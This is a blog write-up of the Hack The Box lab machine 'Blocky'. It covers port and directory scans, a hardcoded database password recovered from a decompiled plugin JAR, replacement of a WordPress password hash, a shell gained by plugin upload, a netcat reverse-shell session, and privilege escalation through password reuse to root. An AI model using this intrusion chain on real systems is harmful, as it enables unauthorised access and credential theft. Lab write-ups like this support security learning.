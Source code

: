 ```yaml
---
layout: post
title:  "HTB: Blocky"
date:   2021-03-17 22:00:00 +1100
category: hacking
---
```


## Blocky
I'm getting out of order now. Whoops.

## Ports
This has got:

1. 21/tcp    open   ftp       ProFTPD 1.3.5a
2. 22/tcp    open   ssh       OpenSSH 7.2p2
3. 80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
4. 8192/tcp  closed sophos
5. 25565/tcp open   minecraft Minecraft 1.11.2

## FTP
ProFTPD 1.3.5 (*before 1.3.5a*) had a horrible vulnerability; this version does not. No anon access. Moving on.

## HTTP
We have a wordpress site, but let's run feroxbuster:

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/blocky]
└─# feroxbuster -u http://10.10.10.37 -w /usr/share/seclists/Discovery/Web-Content/common.txt

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.2.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.37
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/common.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.2.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
403       11l       32w      290c http://10.10.10.37/.hta
403       11l       32w      299c http://10.10.10.37/server-status
301        9l       28w      313c http://10.10.10.37/wp-admin
301        9l       28w      315c http://10.10.10.37/wp-content
403       11l       32w      299c http://10.10.10.37/wp-admin/.hta
403       11l       32w      301c http://10.10.10.37/wp-content/.hta
301        0l        0w        0c http://10.10.10.37/index.php
301        9l       28w      322c http://10.10.10.37/wp-admin/includes
301        9l       28w      315c http://10.10.10.37/phpmyadmin
405        1l        6w       42c http://10.10.10.37/xmlrpc.php
301        9l       28w      323c http://10.10.10.37/wp-content/uploads
302        0l        0w        0c http://10.10.10.37/wp-admin/index.php
301        9l       28w      320c http://10.10.10.37/wp-admin/images
301        9l       28w      319c http://10.10.10.37/wp-admin/maint
301        9l       28w      322c http://10.10.10.37/wp-content/themes
301        9l       28w      317c http://10.10.10.37/wp-admin/css
301        9l       28w      309c http://10.10.10.37/wiki
403       11l       32w      308c http://10.10.10.37/wp-admin/includes/.hta
403       11l       32w      308c http://10.10.10.37/wp-content/themes/.hta
403       11l       32w      303c http://10.10.10.37/wp-admin/css/.hta
403       11l       32w      295c http://10.10.10.37/.htaccess
403       11l       32w      301c http://10.10.10.37/phpmyadmin/.hta
301        9l       28w      312c http://10.10.10.37/plugins
403       11l       32w      306c http://10.10.10.37/wp-admin/images/.hta
403       11l       32w      309c http://10.10.10.37/wp-content/uploads/.hta
200        0l        0w        0c http://10.10.10.37/wp-content/index.php
403       11l       32w      295c http://10.10.10.37/wiki/.hta
403       11l       32w      305c http://10.10.10.37/wp-admin/maint/.hta
403       11l       32w      298c http://10.10.10.37/plugins/.hta
301        9l       28w      321c http://10.10.10.37/wp-admin/network
301        9l       28w      319c http://10.10.10.37/phpmyadmin/doc
403       11l       32w      310c http://10.10.10.37/wp-admin/maint/.htpasswd
403       11l       32w      310c http://10.10.10.37/phpmyadmin/doc/.htaccess
403       11l       32w      310c http://10.10.10.37/phpmyadmin/doc/.htpasswd
[####################] - 1m     65534/65534   0s      found:34      errors:47240  
[####################] - 57s     4681/4681    84/s    http://10.10.10.37
[####################] - 46s     4681/4681    104/s   http://10.10.10.37/wp-admin
[####################] - 42s     4681/4681    112/s   http://10.10.10.37/wp-content
[####################] - 33s     4681/4681    141/s   http://10.10.10.37/wp-admin/includes
[####################] - 38s     4681/4681    135/s   http://10.10.10.37/phpmyadmin
[####################] - 34s     4681/4681    137/s   http://10.10.10.37/wp-content/uploads
[####################] - 34s     4681/4681    151/s   http://10.10.10.37/wp-admin/images
[####################] - 35s     4681/4681    132/s   http://10.10.10.37/wp-admin/maint
[####################] - 33s     4681/4681    139/s   http://10.10.10.37/wp-content/themes
[####################] - 33s     4681/4681    140/s   http://10.10.10.37/wp-admin/css
[####################] - 31s     4681/4681    150/s   http://10.10.10.37/wiki
[####################] - 29s     4681/4681    177/s   http://10.10.10.37/plugins
[####################] - 17s     4681/4681    386/s   http://10.10.10.37/wp-admin/network
[####################] - 21s     4681/4681    235/s   http://10.10.10.37/phpmyadmin/doc
{% endhighlight %}

Lots of juicy stuff there! At *plugins* we find Cute File Browser with two files - **BlockyCore.jar** and **griefprevention-1.11.2-3.1.1.298.jar**.

We can extract the jar:

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/blocky]
└─# jar -xf BlockyCore.jar                                                 
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
{% endhighlight %}

And then we have **BlockyCore.class**. I don't have a Java decompiler so I go to http://www.javadecompilers.com/ and decompile the file:

{% highlight java %}
// 
// Decompiled by Procyon v0.5.36
// 

package com.myfirstplugin;

public class BlockyCore
{
    public String sqlHost;
    public String sqlUser;
    public String sqlPass;
    
    public BlockyCore() {
        this.sqlHost = "localhost";
        this.sqlUser = "root";
        this.sqlPass = "8YsqfCTnvxAUeduzjNSXe22";
    }
    
    public void onServerStart() {
    }
    
    public void onServerStop() {
    }
    
    public void onPlayerJoin() {
        this.sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
    }
    
    public void sendMessage(final String username, final String message) {
    }
}
{% endhighlight %}

Those creds look interesting! Let's go to *phpmyadmin* and login. This works; we can grab the hash for our lone wordpress user, *notch*. It doesn't want to crack immediately with John so I replace it with:

>$P$BDZFisiinAqGeR02VRcdlEcP7IZvxL1

Which is the wordpress hash for *password*. With this changed I can log in at /wp-admin/. I upload a plugin as a zipfile and get a shell.

## Privesc
The privesc was very simple; the password we extracted from the JAR file was also the system password for *notch*; and he is in the sudo group.

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/blocky]
└─# nc -nvlp 1234                                                         

listening on [any] 1234 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.37] 43190
bash: cannot set terminal process group (1464): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Blocky:/var/www/html/wp-admin$ python3 -c 'import pty;pty.spawn("/bin/bash");'
<ml/wp-admin$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@Blocky:/var/www/html/wp-admin$ su notch
su notch
Password: 8YsqfCTnvxAUeduzjNSXe22

notch@Blocky:/var/www/html/wp-admin$ sudo su
sudo su
[sudo] password for notch: 8YsqfCTnvxAUeduzjNSXe22

root@Blocky:/var/www/html/wp-admin# cd /root
cd /root
root@Blocky:~# cat root.txt
cat root.txt
# flag goes here
{% endhighlight %}

Another one bites the dust.
